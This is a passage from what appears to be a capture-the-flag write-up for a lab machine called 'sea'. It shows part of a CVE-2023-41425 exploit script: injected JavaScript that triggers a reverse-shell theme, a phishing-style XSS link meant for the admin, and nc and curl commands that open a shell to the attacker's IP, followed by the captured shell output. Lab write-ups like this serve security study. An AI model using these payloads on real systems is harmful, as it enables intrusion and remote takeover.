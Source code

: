 ```console
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
┌─[sg-vip-1]─[10.10.14.11]─[kazma@htb-dcoyyfmrg1]─[~/CVE-2023-41425]
└──╼ [★]$ curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.11&lport=4444'
```

Successfully got revshell:

```console
└──╼ [★]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.28] 59906
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 05:16:31 up 12:48,  0 users,  load average: 1.05, 0.80, 0.77
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
As before, you can scroll to the database below and there is a password in it:
